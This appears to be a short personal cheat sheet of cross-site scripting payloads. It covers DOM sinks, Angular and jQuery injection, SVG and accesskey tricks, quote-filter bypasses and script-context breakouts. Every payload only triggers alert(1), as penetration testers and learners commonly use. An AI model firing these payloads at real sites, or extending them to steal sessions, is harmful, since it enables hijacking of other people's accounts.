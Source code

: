 **use DOM-invader**
## Sinks
* `document.write`
* jQuery's `attr()` funciton, Example
```js
$("img").attr("src", "example.com")
```


## HTML - Context

### href
`javascript:alert(1)` 

### rel="canonical"
Triggers XSS on `ALT+SHIFT+X`
```
<link rel="canonical" href=... accesskey="x" onclick="alert(1)">
```

## Angular

* If `ng-app` is enabled -> XSS withot angle brackets
```
{{$on.constructor('alert(1)')()}}
```

### JQuery
*popular* `$(window).on('hashchange'`
-> trigger hashchange on attacker server
```js
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

### Tricks
Use animate to set href attribute:
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

* Use `&` in payload - get parameter and whole parameter might be parsed differently
* `onerror=alert;throw 1`
* `&apos;` -> Substitute for `'` (the `;` is part of the element!)


#### Bypass `'` and `"` filter with `&apos`

## `<script>` Context
1. Terminate Existing script `</script><img src=...`
2. Bypass filters
```
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```
### template literal 
```
`${alert(1)}`
```

```

# Troubleshooting Exploits
* Check on different browser
